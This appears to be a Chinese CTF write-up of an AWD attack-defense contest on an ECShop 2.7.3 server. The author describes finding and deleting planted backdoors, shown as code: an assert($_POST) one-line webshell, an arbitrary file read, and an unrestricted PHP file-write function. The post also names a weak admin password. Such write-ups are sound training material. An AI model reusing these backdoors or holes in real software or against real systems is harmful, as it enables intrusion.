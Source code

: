 ```yaml
---
layout: post
title: 线下AWD被打指南
subtitle: 
author: Coink
date: 2018-05-02
categories:
tag:
---
```




# 概

前几天跑去玩了玩安恒的线下AWD，被很多大佬吊打（物理）。

![9150e4e5ly1fmkyfg8tn1j203a03cdfm.jpg](https://i.loli.net/2018/05/05/5aed3d47ee247.jpg)

简单分析一下本次AWD的内容，顺便总结一下AWD要注意的一些事项。这次是比较基础的AWD，没有pwn，只有Web。

# Start

比赛开始拿到自己机器，不是root权限，写文件有限制。Web服务是ECShop V2.7.3，AngelSword里查了一下，发现两个漏洞，但是都没有成功复现：

![poc.png](https://i.loli.net/2018/05/05/5aed16e2be14f.png)

己方服务器ip是10.50.20.2，推测出所有靶机地址，10.50.[1-37].2，10.50.0.2可能为NPC机。

提交和获取Flag都需要带上团队Token：

```url
//获取flag
http://10.0.1.2?token=XXXXXXXX
```

```url
//提交flag
https://192.168.37.180/match/WAR20/oapi?atn=answers&token=XXXXXXXX&flag=flag{}
```

赶紧把var/www/html拷贝了一份到本地，（由于经验不足，没有想办法备份数据库，导致后面的惨剧 ，嘤）同时打开D盾扫Shell，主办方的shell藏得挺好的，D盾扫不到。

waf装上去之后服务瞬间爆炸，赶紧恢复备份，还好check是从20分钟开始的，没有被扣分。

本次比赛时间很紧，总共只有3h。前半个多小时大家和平发育，除了几个队伍可能自己玩坏了自己服务，或者战略关闭服务器之外，没有任何一支队伍成功攻击。

# php一句话

40分钟时，主办方给出第一个提示：

![tip1.png](https://i.loli.net/2018/05/05/5aed1c57651ca.png)

dwt是未渲染的模板文件，跟进发现：

```html
<div class="con">{:assert($_POST[1])}
...
</div>
```

删掉即可。

# 文件读取

1h多时主办方直接在tips里给了exp...

![exp1.png](https://i.loli.net/2018/05/05/5aed3b5f2109b.png)

定位:

![sr32.png](https://i.loli.net/2018/05/05/5aed3b8488af7.png)

```php
switch ($row['media_type']) {
	//...
	case 4: // url
		$ads[] = file_get_contents($_POST['url']);
}
```

发现任意文件读取，因为参数本身就是url，且不清楚check的规则是什么，暂且直接删掉。



# new exp

距离上次exp不到10分钟，又给了一个攻击流量，漏洞就是第一个放出来的auction_list模板内的一句话。

![exp.png](https://i.loli.net/2018/05/05/5aed3dd28672b.png)

删掉那句后门就行了。



# 文件写入

新提示

![write.png](https://i.loli.net/2018/05/05/5aed3ef499a3b.png)

之前在AngelSword见到了uc的注入，但是不是mobile下的，对比mobile下和api下的uc.php：

![sp180505_132349.png](https://i.loli.net/2018/05/05/5aed3ff377dcc.png)

发现多了一个writesth函数：

```php
function writesth($get, $post){
    $cachefile = $this->appdir .$get['name'];
    $fp = fopen($cachefile, 'w');
    $s = "<?php\r\n";
    $s .= $get['content'];
    fwrite($fp, $s);
    fclose($fp);
    return API_RETURN_SUCCEED;
}
```

name和content均可控，直接写入即可，注意写入权限。

# 惨遭删库

最后一小时主办方给出最后一个提示

![sp180505_133044.png](https://i.loli.net/2018/05/05/5aed418e963cd.png)

但是这时候我们发现自己的网站凉了...

![惨遭删库.png](https://i.loli.net/2018/05/05/5aed4219cf905.png)

心里咯噔一下，数据库炸了？检查一下数据库发现...给人删库了...没备份数据库...naive了呀...目测是排名跟我们相近的队伍发现了SQL注入，把做了防御，他们队拿不到分的机器给炸了，一方面减缓高分队伍得分速度，另一方面让我们每5分钟扣100分。当时真的是想掏个emp啥的出来来一发无差别攻击...

现在回想起来，如果当时是有权限删除data目录文件的话，删掉lock文件，就可以重新安装cms，或者找到structure.sql也能恢复数据库了，当时手忙脚乱的没反应过来，果然还是太菜...

BTW，看了@一叶飘零 的wp，得知弱口令是admin888，发现我们字典里刚好没有...

复现环境之后再找找其他洞，找到会更新。